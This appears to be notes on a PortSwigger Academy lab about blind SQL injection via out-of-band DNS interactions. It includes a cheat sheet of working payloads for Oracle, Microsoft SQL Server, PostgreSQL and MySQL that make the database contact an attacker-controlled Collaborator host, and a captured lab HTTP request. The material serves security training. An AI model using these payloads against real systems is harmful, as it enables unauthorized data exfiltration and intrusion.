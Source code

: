 ```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net
```

Out-of-band (OAST) techniques are an extremely powerful way to detect and exploit blind SQL injection, due to the highly likelihood of success and the ability to directly exfiltrate data within the out-of-band channel. For this reason, OAST techniques are often preferable even in situations where other techniques for blind exploitation do work.

# Lab 1: Out-of-band interaction

This lab contains a blind [SQL injection](https://portswigger.net/web-security/sql-injection) vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

> **Note**
> 
> 
> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.
> 

### Cheat Sheet
| DATABASE TYPE | QUERIES |
|---|---|
| **Oracle** | (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:```SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual```. The following technique works on fully patched Oracle installations, but requires elevated privileges:```SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')``` |
| **Microsoft** | ```exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'``` |
| **PostgreSQL** | ```copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'``` |
| **MySQL** | ```The following techniques work on Windows only:LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'``` |

---

****************************************The original request****************************************

```
GET /login HTTP/2
Host: 0ab5009a048199528000dfb9006800aa.web-security-academy.net
Cookie: TrackingId=KrN0QUPy6owEFsYC; session=DSs3e5PeG5u4xtwCkBawMVxsBE49KB0z
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Not.A/Brand";v="8", "Chromium";v="114", "Google Chrome";v="114"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Referer: https://0ab5009a048199528000dfb9006800aa.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
```
